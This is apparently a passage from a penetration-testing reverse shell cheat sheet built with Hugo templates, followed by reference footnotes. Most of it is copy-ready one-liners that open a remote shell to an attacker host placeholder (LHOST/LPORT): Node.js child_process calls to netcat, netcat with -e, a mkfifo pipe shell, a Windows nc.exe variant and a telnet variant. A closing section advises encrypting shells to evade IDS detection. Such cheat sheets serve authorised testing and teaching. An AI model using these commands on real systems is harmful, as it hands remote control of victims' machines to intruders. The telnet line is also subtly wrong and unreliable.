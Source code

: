 ```js
require('child_process').exec('nc -e /bin/sh {{< param "m.LHOST" >}} {{< param "m.LPORT" >}}')
```

```js
-var x = global.process.mainModule.require
-x('child_process').exec('nc {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} -e /bin/bash')
```

### Netcat

```sh
nc -e /bin/sh {{< param "m.LHOST" >}} {{< param "m.LPORT" >}}
```

Depending on the Netcat version, the `-e` option may not be available, but you still can execute a command after connection being established by redirecting file descriptors.
A FIFO or named pipe can be created locally so when a connection is established, `/bin/sh` gets executed and the shell prompt is given to the remote machine.[^nc-openbsd]

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} >/tmp/f
```

### Netcat Windows

```sh
nc.exe {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} -e cmd.exe
```

### Telnet

```sh
rm -f /tmp/f; mknod /tmp/f p && telnet {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} 0/tmp/p
```

{{<hint info>}}
A FIFO can be create both with `mknod <path> p` or `mkfifo <path>` .
{{</hint>}}


## Encrypted Shells

During an engagement is imperative to encrypt the communication between the target and the attacker to protect sensitive data and from further activity analysis.

Although most of the tools listed below do not support certificate pinning, meaning they won't protect you against a MITM attack, they can significantly reduce the risk of sniffing and IDS detection. [^cert-pinning]

### OpenSSL [^openssl]

Before starting the listener, a key pair and a certificate must be generated.

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
{{<details "Parameters"></details>}}


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.